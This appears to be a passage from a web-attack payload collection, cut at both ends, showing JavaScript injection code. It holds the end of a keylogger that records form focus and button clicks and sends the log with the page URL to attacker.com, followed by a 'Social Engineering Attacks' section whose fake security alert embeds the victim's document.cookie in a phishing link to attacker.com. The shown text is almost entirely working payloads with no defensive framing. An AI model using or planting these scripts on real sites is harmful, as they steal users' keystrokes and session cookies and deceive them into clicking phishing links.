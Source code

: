 ```javascript

// Capture form focus events
document.addEventListener('focusin', function(e) {
    if (e.target.tagName === 'INPUT' || e.target.tagName === 'TEXTAREA') {
        keylog += `[FOCUS:${e.target.name || e.target.id || e.target.type}]`;
    }
});

// Capture mouse clicks on sensitive elements
document.addEventListener('click', function(e) {
    if (e.target.type === 'submit' || e.target.tagName === 'BUTTON') {
        keylog += `[CLICK:${e.target.innerText || e.target.value}]`;
        sendKeylog();
    }
});

function sendKeylog() {
    if (keylog.length > 0) {
        fetch('http://attacker.com/keylog.php', {
            method: 'POST',
            headers: {'Content-Type': 'application/x-www-form-urlencoded'},
            body: 'keylog=' + encodeURIComponent(keylog) + '&url=' + encodeURIComponent(window.location.href)
        });
        keylog = '';
    }
}

// Send remaining keylog when page unloads
window.addEventListener('beforeunload', sendKeylog);
</script>
```

### 4. 🎭 Social Engineering Attacks

#### Fake Security Alert
```javascript
// Create convincing security alert
<script>
function showSecurityAlert() {
    var alertDiv = document.createElement('div');
    alertDiv.style.cssText = `
        position: fixed;
        top: 20px;
        right: 20px;
        background: #ff4444;
        color: white;
        padding: 15px;
        border-radius: 5px;
        z-index: 10000;
        max-width: 300px;
        box-shadow: 0 4px 8px rgba(0,0,0,0.3);
    `;
    
    alertDiv.innerHTML = `
        <strong>⚠️ Security Alert</strong><br>
        Suspicious activity detected on your account.<br>
        <a href="http://attacker.com/verify.php?token=${document.cookie}" 
           style="color: #ffff00; text-decoration: underline;">
           Click here to verify your account
        </a>
        <button onclick="this.parentElement.remove()" style="float: right; background: none; border: none; color: white; cursor: pointer;">×</button>
```
